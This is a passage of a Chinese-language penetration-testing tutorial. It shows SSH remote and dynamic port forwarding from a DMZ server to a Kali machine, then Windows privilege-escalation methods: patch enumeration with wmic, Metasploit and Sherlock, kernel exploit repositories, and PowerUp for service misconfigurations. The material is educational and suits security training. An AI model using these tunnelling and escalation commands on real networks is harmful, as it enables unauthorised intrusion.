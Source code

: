 ```
#在DMZ服务器上执行ssh -CfNg -R 3307(Kali端口):1.1.1.10:3389(目标主机) root@192.168.1.4(Kali主机)
```

远程转发是在远程主机上监听一个端口，所有访问远程服务器指定端口的数据都会通过 SSH 隧道传输到达本地的对应端口，此时访问 Kali 的 3307 端口，即可成功代理目标主机的 3389 端口流量

3.2.4 动态转发

可以通过 SSH 隧道开启一个目标内网的代理通道

同一实验环境下，在 Kali 上执行：

```
ssh -CfNg -D 7000 root@192.168.1.11(DMZ服务器)
```

此时即通过 SSH 隧道开放了一个可以访问目标服务器内网环境的流量通道

0x04 权限提升分析与防御
--------------

### 4.1 简介

提权可分为纵向提权与横向提权：纵向提权：低权限角色获得高权限角色的权限；横向提权：获取同级别角色的权限。

常用的提权方法有：系统内核溢出漏洞提权、数据库提权、错误的系统配置提权、组策略首选项提权、WEB 中间件漏洞提权、DLL 劫持提权、滥用高危权限令牌提权、第三方软件 / 服务提权等

### 4.2 系统内核溢出漏洞提权

此提权方法即是通过系统本身存在的一些漏洞，未曾打相应的补丁而暴露出来的提权方法，依托可以提升权限的 EXP 和它们的补丁编号，进行提升权限。

https://github.com/SecWiki/windows-kernel-exploits

4.2.1 手工查找补丁情况

```
systeminfoWmic qfe get Caption,Description,HotFixID,InstalledOn
```

4.2.2 MSF 后渗透扫描

```
post/windows/gather/enum\_patches
```

4.2.3 Powershell 扫描

```
Import-Module C:\\Sherlock.ps1Find-AllVulns
```

### 4.3 系统配置错误提权

4.3.1 系统服务权限配置错误

Windows 在系统启动时，会伴随着一些高权服务启动，倘若某些服务存在一些漏洞，那么就能够借此服务进行权限劫持

实现方法可借助：  
1.Powershell 中的 PowerUp 脚本

2.Metasploit 中的攻击模块
